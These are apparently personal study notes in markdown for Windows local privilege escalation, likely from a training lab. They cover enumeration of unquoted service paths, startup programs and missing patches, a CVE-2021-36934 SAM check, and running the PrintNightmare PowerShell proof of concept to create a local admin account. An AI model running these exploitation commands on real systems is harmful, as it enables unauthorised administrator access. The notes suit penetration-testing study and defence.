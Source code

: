 ## Search for Unquoted Service Paths
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
## Check start up programs
```
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
### Other refrences 
https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
# Kernal Exploits
### Checking Permissions on the SAM file
```
icacls c:\Windows\System32\config\SAM
```
### CVE-2021-36934.exe
```
 .\CVE-2021-36934.exe
 ```
### Spooler Service 
```
ls \\localhost\pipe\spoolss
```
![image](https://user-images.githubusercontent.com/128841823/233182366-77276325-9498-47bf-94d0-a7840b9f34bd.png)
### Adding Local Admin with PrintNightmare Powershell POC
```
Set-ExecutionPolicy Bypass -Scope Process
```
### Import the script
```
Import-Module .\CVE-2021-1675.ps1
```
```
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
### Test
```
net user hacker
```
### Enumerating Missing Patches
```
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```
We can search for each KB (Microsoft Knowledge Base ID number) in the Microsoft Update Catalog to get a better idea of what fixes have been installed and how far behind the system may be on security updates. A search for KB5000808 shows us that this is an update from March of 2021, which means the system is likely far behind on security updates.
### Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability,
